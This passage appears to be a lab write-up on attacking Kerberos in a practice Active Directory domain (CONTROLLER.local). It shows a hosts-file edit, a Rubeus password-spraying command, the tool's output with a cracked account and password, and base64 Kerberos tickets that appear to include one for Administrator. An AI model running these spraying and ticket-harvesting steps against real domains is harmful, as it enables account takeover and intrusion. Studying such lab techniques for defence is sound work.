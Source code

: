 ```shell
    AVXF+P4mE4yTSKz3x/wQZfp5nlthsXfGTMpVxM9dnc3OHbBDBMT5PcQsswWL6b7P8awH5JY8Mmz4Yz6sb3i6ERMG5RJ3gF7AcWRx
    n31pTP66iICPUuJW02cKbretMGA7WKvTCHmCu33SYFJWpiJH/Iq1rw21rDCIXgFzsQJTFZSE437SvvttbB9tU7X9h4mmW34zMiu6
    yK/0qJ4ULA+1A8IwN6MduyL7akEbP+p+EUpPbjCe2YV/OQrOwwXl7SoSC9cV+r4sc6j2dRAsVE0oYHkWYsmtBFle6hk/dg1/fAcE
    8iDmBlShWafPHgMlv7PETiAyqhffsb172RD0q9x4sOtwo4inf2tqKQj+SH7DXzIY1xpVcbYqhAKTOEfzF0mU08cIlY2XEeKy40HD
    t5KtbMzmvqfQBhB3iCRqhvwZlRsjvz4NusRt29B+0qXipHeaRUOURzjnICLye5Y9gr/emjWxxA3KqV0rXDXLMFMJnJrs1R2pU0Fr
    7OVnGWw0D38VqCQqF0bLk4KYAShax0yQjjzPqCtBY80lw8Cz8utpvVT4/lFD5y8Ll39Ih3r0XShVjhgRsgDxcSHauxisvmGzujeC
    7EXN1KHB0q908DeVxCUb5ZyKKM3lovOU2KvjWi3+0eUUh4ygN0RRO3XfxRN5SRXhDRqd2vvU+W3cT+Ja7ysd9JXxRMfxtEasj8TB
    aspkcPndgdTmkymBVnhpQYP8vq575JPdi6ubwbih+qSHOxe0Q/q+fAyPI4Fn31dL6KOB9zCB9KADAgEAooHsBIHpfYHmMIHjoIHg
    MIHdMIHaoCswKaADAgESoSIEIC5U5R1rNWqxS6JJvQAVLtJLsd9U1zkREEuSTD8h1esjoRIbEENPTlRST0xMRVIuTE9DQUyiGjAY
    oAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBA4QAApREYDzIwMjIwNjIwMTg0ODU4WqYRGA8yMDIyMDYyMTA0NDg1OFqnERgP
    MjAyMjA2MjcxODQ4NThaqBIbEENPTlRST0xMRVIuTE9DQUypJTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIuTE9DQUw=

```

##  Brute-Forcing / Password-Spraying w/ Rubeus

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: 

1. ``echo 10.10.146.3 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts``
2. Nagivate to Rubueus directory ``C:\Users\Administrator\Downloads``
3. ``Rubeus.exe brute /password:Password1 /noticket``

```shell
   ______        _
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7Ve4Z+Wg7BgJBd6uHv1PGR0zSbVeyLeyGk9Rz3JdAvvC6/UeT3Mv/KJOKaReqD2Ek/FJ1kCMkEQC
      FPrKW7ECUycLrL3Lo23V90o+afUSH3nyjYIu7ia3OeRwKIJBRB8b48/MpljBfs1pWPXAqu2Jn9v8V7O1
      EOA9p5nAnZqgXUUe2KfwV8whhoP2TJ6Nl2in/I+jEu3GW50UoBzMfRnVJ6XYzhUs/Dckobdg98+8UfJA
      Drvn4RKaUKUqC+YW5trSXikF5pkM0/jitFAv7bL36qNudbbTVuP/xGAeSmY7N278s3Q2JNd0y4RKVWo5
      8fvdPUObJin9cIPgzwKADQ3p2qPO9Qx83V3gWx7NMFhM+cMvhdSHJKLhEbqORqaZpFGDsz76T0tgfZMz
      bNCzQI4oOdLfpBBmib1irHdPXJ8At1REl3D72ns+Ljp6BPlW7hsKLOJRQfEgnl4uZbDgpaKUc1EDsbPR
      rr2XonyGhROOez8F1WNa6k103gicRPuncuQ9uxnHnMi1tmre3pJygYDG8XYrxU75ULqTUnlwXLRgv0Q3
      hPgx5BxLv0if/FgsgGt7d3N9ifVs7k+0f0Ot+y3yVn/kqwgEckIFGD7rq7VzLjc1M/nUTM8YFMMk0XPz
      t8k7yuTjZamNJ5T+QFlAGq1QEky0MBIv6Rw5LBSVSyp6mLXKAciRsaYZxSwfmQMtTQvpzsxA8DrN6ctH
      R4WP40FhtP1HyxglxWvP5EkX+yYG1ub1lEiyTE0Oj2faGSH1jEQ4ME2H4fYeyPuHYCwZRPydYJcWOVqd
      SAMV8gbxTkiVs+nEtuVkCeh/8hqM7XHjNOyYgw7TKNcw5REvBnlnijSpMxai6ovF9jQF2mYjTpEGAHDG
      deCCGEyub3dTjoSmMxCGXvsNAdIVlMx36+EgTzcWBv1mo1nJ8Oj2mLQCeHQlYMWNKTkjo/S4F+i2yEP7
```